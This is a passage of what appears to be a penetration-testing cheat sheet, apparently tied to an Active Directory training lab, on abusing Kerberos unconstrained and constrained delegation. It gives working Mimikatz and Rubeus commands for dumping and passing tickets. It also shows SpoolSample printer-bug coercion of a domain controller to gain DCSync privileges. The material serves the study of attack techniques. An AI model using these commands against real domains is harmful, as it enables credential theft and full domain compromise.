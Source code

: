 ### Unconstrained delegation

Can be set on a _frontend service_ (e.g., IIS web server) to allow it to delegate on behalf of the user to _any service in the domain_ (towards a _backend service_, such as an MSSQL database).

DACL UAC property: `TrustedForDelegation`.

#### Exploitation

With administrative privileges on a server with Unconstrained Delegation set, we can dump the TGTs for other users that have a connection. With Mimikatz:

```
sekurlsa::tickets /export
kerberos::ptt c:\path\to\ticket.kirbi 
```

Or with Rubeus:

```
.\Rubeus.exe klist
.\Rubeus.exe dump /luid:0x5379f2 /nowrap
.\Rubeus.exe ptt /ticket:doIFSDCC[...] 
```

We can also gain the hash for a domain controller machine account, if that DC is vulnerable to the printer bug. On the server with Unconstrained Delegation, monitor for new tickets with Rubeus.

```
.\Rubeus.exe monitor /interval:5 /nowrap 
```

From attacking machine, entice the Domain Controller to connect using the printer bug. Binary from [here](https://github.com/leechristensen/SpoolSample).

```
.\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local 
```

The TGT for the machine account of the DC should come in in the first session. We can pass this ticket to gain DCSync privileges.

```
.\Rubeus.exe ptt /ticket:doIFxTCCBc... 
```

### Constrained delegation

Constrained delegation can be set on the _frontend server_ (e.g. IIS) to allow it to delegate to _only selected backend services_ (e.g. MSSQL) on behalf of the user.

DACL UAC property: `TrustedToAuthForDelegation`. This allows `s4u2self`, i.e. requesting a TGS on behalf of _anyone_ to oneself, using just the NTLM password hash. This effectively allows the service to impersonate other users in the domain with just their hash, and is useful in situations where Kerberos isn’t used between the user and frontend.

DACL Property: `msDS-AllowedToDelegateTo`. This property contains the SPNs it is allowed to use `s4u2proxy` on, i.e. requesting a forwardable TGS for that server based on an existing TGS (e.g. the one gained from using `s4u2self`). This effectively defines the backend services that constrained delegation is allowed for.
